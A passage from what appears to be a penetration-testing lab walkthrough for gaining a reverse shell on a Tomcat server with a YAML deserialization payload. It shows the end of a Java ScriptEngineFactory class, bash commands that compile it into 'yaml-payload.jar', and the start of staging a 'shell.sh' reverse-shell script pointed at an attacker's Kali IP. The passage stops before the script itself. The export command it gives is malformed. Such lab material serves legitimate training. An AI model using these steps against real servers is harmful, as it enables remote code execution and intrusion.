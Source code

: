 ```java
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

9. Once you finish copying the code above and adding your Kali IP, we can proceed to compile this using:

```bash
javac --release 11 /home/user/payload/src/artsploit/AwesomeScriptEngineFactory.java

jar -cvf /home/user/payload/yaml-payload.jar -C /home/user/payload/src/ .
```

> Note: If `javac` is not currently in the path, it will throw an error. To fix this, please run: `export PATH:"$JAVA_HOME/bin:$PATH"`. If it works, ignore this note. `javac` must use Version 11 for the Tomcat server to execute the `.jar`.

The next step is to build your `shell.sh` script to get a reverse shell on the web server once we execute the payload above.

10.  Let's start by creating a folder to store our next file and the `yaml-payload.jar` we created above: 

```bash
mkdir /home/user/payload/www/
```

11. Now, let's create our `shell.sh` script. 

```bash
touch /home/user/payload/www/shell.sh
```


12. Once the file is created, use your favorite text editor to add the following script (Once again, make sure to replace `<kali-ip-address>` with your actual Kali IP address):

